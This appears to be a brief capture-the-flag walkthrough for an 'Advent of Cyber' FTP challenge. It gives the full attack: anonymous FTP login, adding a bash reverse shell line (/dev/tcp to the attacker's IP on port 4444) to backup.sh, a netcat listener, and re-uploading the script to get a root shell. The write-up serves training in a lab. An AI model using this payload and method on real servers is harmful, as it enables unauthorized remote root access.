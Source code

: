 #Day-9
....................................................................
====================================================================
Day 9: Anyone can be Santa - Prelude:

﻿Even Santa has been having to adopt the "work from home" ethic in 2020. To help Santa out, Elf McSkidy and their team created a file server for The Best Festival Company (TBFC) that uses the FTP protocol. However, an attacker was able to hack this new server. Your mission, should you choose to accept it, is to understand how this hack occurred and to retrace the steps of the attacker.
====================================================================
....................................................................

how to get in to FTP:
#ftp ip_addrs_victim
name: anonymous

get to download the files from ftp server and put to download files from ftp server.

download the files from ftp server and put our malicious code in backup.sh
#bash -i >& /dev/tcp/Your_tun0_IP/4444 0>&1

then run the netcat listner:
#nc -lnvp 4444

use the put command to upload that modified .sh file on ftp server.


#You have the full root shell !!

